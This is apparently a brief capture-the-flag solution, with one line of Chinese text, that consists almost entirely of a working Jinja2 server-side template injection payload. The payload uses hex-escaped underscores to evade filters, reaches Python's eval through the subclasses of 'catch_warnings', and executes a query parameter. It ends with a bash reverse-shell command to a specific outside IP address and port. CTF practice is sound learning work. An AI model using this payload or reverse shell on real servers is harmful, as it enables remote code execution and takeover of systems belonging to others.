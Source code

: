 # solve
```
{% for c in ()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')() %}
{% if c|attr('\x5f\x5fname\x5f\x5f') == 'catch\x5fwarnings' %}
{% for b in c|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('values')() %}
{% if b|attr('\x5f\x5fclass\x5f\x5f') == {}|attr('\x5f\x5fclass\x5f\x5f') %}
{% if 'eval' in b|attr('keys')() %}
{% if  b['eval'](request|attr('args')|attr('get')('hack')) == 'p' %}
{% endif %}
{% endif %}
{% endif %}
{% endfor %}
{% endif %}
{% endfor %}
```
然後 get 傳 `__import__('os').system("bash -c 'bash -i >%26 /dev/tcp/140.113.209.28/5566 0>%261'")`
